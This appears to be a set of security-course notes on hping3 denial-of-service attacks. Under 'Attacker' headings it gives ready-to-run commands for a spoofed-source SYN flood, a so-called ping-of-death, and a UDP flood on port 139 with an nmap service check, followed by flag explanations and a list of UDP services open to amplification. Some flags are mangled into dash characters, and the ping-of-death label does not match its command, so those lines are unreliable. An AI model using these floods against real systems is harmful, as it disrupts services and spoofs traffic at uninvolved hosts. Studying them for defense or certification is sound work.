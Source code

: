 # 👉 Hping3

**Attacker**

`hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood`

* \-S: Set the SYN flag
* \-a: Spoof the IP address
* \-p: Specify the destination port
* — flood: Send a huge number of packets

**Attacker (Perform PoD)**

hping3 -d 65538 -S -p 21 –flood \[Target IP]

* \-d: Specify data size
* \-S: Set the SYN flag

**Attacker (Perform UDP application layer flood attack)**

* nmap -p 139 10.10.10.19 (check service)
* hping3 -2 -p 139 –flood \[IP]

Other Hping3 flags

* \--udp -> specifies sending the UDP packets to the target host
* \-2 -> specifies UDP mode
* \--rand-source -> enables random source mode
* \--data -> specifies the data body size
* \-d -> specifies the data size
* \-S -> sets the SYN flag
* \-p -> assigning the port to send the traffic
* \-c -> count of packets sent
* \--flood -> performs TCP flooding (sends a huge # of packets)

**Other UDP-based applications and their ports**

* CharGen UDP Port 19
* SNMPv2 UDP Port 161
* QOTD UDP Port 17
* RPC UDP Port 135
* SSDP UDP Port 1900
* CLDAP UDP Port 389
* TFTP UDP Port 69
* NetBIOS UDP Port 137,138,139
* NTP UDP Port 123
* Quake Network Protocol UDP Port 26000
* VoIP UDP Port 5060





